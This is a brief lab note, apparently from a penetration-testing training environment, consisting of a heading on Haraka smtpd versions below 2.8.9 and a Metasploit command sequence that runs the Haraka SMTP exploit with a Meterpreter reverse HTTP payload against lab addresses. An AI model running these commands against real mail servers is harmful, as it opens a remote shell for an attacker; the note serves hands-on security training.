 Haraka smtpd < 2.8.9

# Metasploit
```
use exploit/linux/smtp/haraka
set SRVPORT 9898
set email_to root@attackdefense.test
set payload linux/x64/meterpreter_reverse_http
set rhost 192.150.137.3
set LHOST 192.150.137.2
exploit
```